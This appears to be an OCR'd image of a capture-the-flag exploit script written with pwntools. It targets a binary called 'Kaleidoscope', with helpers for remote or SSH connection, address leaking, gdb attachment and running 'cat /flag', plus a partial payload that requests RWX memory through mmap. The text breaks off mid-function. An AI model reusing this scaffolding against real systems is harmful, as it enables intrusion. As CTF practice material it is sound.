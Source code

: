 ```

def get_sh(Use_other_libc = False , Use_ssh = False):
    global libc
    if args['REMOTE'] :
        if Use_other_libc :
            libc = ELF("./", checksec = False)
        if Use_ssh :
            s = ssh(sys.argv[3],sys.argv[1], sys.argv[2],sys.argv[4])
            return s.process("./Kaleidoscope")
        else:
            return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./Kaleidoscope")

def get_address(sh,info=None,start_string=None,address_len=None,end_string=None,offset=None,int_mode=False):
    if start_string != None:
        sh.recvuntil(start_string)
    if int_mode :
        return_address = int(sh.recvuntil(end_string,drop=True),16)
    elif address_len != None:
        return_address = u64(sh.recv()[:address_len].ljust(8,'x00'))
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string,drop=True).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string,drop=True).ljust(4,'x00'))
    if offset != None:
        return_address = return_address + offset
    if info != None:
        log.success(info + str(hex(return_address)))
    return return_address

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

def get_gdb(sh,gdbscript=None,stop=False):
    gdb.attach(sh,gdbscript=gdbscript)
    if stop :
        raw_input()

def Multi_Attack():
    # testnokill.__main__()
    return

def Attack(sh=None,ip=None,port=None):
    if ip != None and port !=None:
        try:
            sh = remote(ip,port)
        except:
            return 'ERROR : Can not connect to target server!'
    try:
        # Your Code here
        payload = """
        def mmap(x y z o p)
            if x &lt; 3 then
                1
            else
                a=1

        mmap(1048576, 4096, 7, 34, 0);
        """
        sh.recvuntil('ready&gt; ')
```